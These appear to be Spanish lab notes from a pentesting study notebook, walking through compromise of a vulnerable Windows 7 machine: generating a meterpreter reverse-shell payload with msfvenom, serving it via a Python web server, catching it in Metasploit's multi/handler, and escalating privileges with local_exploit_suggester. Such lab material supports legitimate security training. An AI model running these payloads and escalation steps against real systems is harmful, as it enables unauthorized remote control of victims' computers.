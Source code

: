 Vamos a practicar en una maquina Windows 7 vulnerable.

- Vamos a adquirir una sesión de meterpreter en Windows.
	- meterpreter: Payload potente. Se utiliza para realizar tareas de post-explotación en una máquina comprometida.
- Vamos a generar un payloads con la herramienta ==msfvenom==.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```

![](../Imagenes/Pasted%20image%2020250112145720.png)
- Esta la posibilidad que nos tire un error con relación a los bits, para solucionarlo tenemos que modificar el comando.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```
- Agregamos /x64/.
- Ya que lo tenemos, lo vamos a compartir por un servidor creado en Paython.
```
python3 -m http.server 80
```
![[Pasted image 20250112150214.png]]
- Ahora, en la maquina windows ponemos la IP de la maquina atacante en la URL.

![](../Imagenes/Pasted%20image%2020250112150311.png)
- Descargamos el archivo virus.
- Ahora, abrimos ==metasploit== para ponernos en escucha.
- Para abrir el ==metasploit== en la consola usamos el comando `msfconsole`.
- Ya dentro vamos a usar el siguiente comando:
```
use /multi/handler
```
- Que cumple la función de ==nc==.

![](../Imagenes/Pasted%20image%2020250112150659.png)
- Ya con este payloads vamos a configurarlo con el comando `show options` y vamos a rellenar con la información faltante.

![](../Imagenes/Pasted%20image%2020250112150841.png)
- Ahora nos falta modificar el payload como tal, usamos el comando `set PAYLOAD` y ponemos el payload que creamos en msfvenom.
![](../Imagenes/Pasted%20image%2020250112151054.png)
- Ahora hacemos ==run== en el payload y en windows ejecutamos el programa virus.

![](../Imagenes/Pasted%20image%2020250112151222.png)
- Estamos dentro.
- Estando dentro vamos a usar el comando `background`.

![](../Imagenes/Pasted%20image%2020250112151407.png)
- Este comando permite una sesión activa de meterpreter a fondo, permite que el operador regrese al prompt principal de metasploit (msf) para ejecutar otros comandos o iniciar nuevas sesiones.
- ==Metasploit== tiene un payload que automatiza la búsqueda de sploit que nos permite escalar privilegios.
```
search local_exploit_suggester
```
![[Pasted image 20250112151806.png]]
- Lo vamos a seleccionar.
- Lo vamos a configurar.
![[Pasted image 20250112151850.png]]
- Solo nos va a pedir la session activa de windows.
```
sessions -l
```
![[Pasted image 20250112152004.png]]
- Y la seleccionamos.
```
set SESSION (NUMERO_SESSION)
```
![[Pasted image 20250112152050.png]]
- Verificamos.
![[Pasted image 20250112152118.png]]
- Ya esta seleccionado.
- Ejecutamos el comando run.
![[Pasted image 20250112152149.png]]
![[Pasted image 20250112152247.png]]
- Los exploit verdes son los que nos interesan.
- Vamos a explotar el que esta marcado.
- Copiamos el exploit y usamos el comando `use` + el nombre del exploit.
![[Pasted image 20250112152401.png]]
- Lo configuramos.
![[Pasted image 20250112152437.png]]
- Como podemos ver, nos piden 2 cosas:
	- 1.- La session (que ya sabemos que hay 1 en este windows)
	- 2.- LHOST que es la IP atacante.
![[Pasted image 20250112152623.png]]
- Ya configurado, ejecutamos comando ==run==.
- ==SI YA ESTAMOS OCUPANDO EL PUERTO 4444 ANTERIORMENTE ES RECOMENDABLE CAMBIARLO POR CUALQUIER OTRO==.
![[Pasted image 20250112152831.png]]
- Nuevamente tenemos una sesión meterpreter, ahora vamos a ejecutar el comando `shell` para posterior ejecutar el comando `whoami` y ver si somos usuarios principal.
![[Pasted image 20250112152944.png]]
- Lo somos.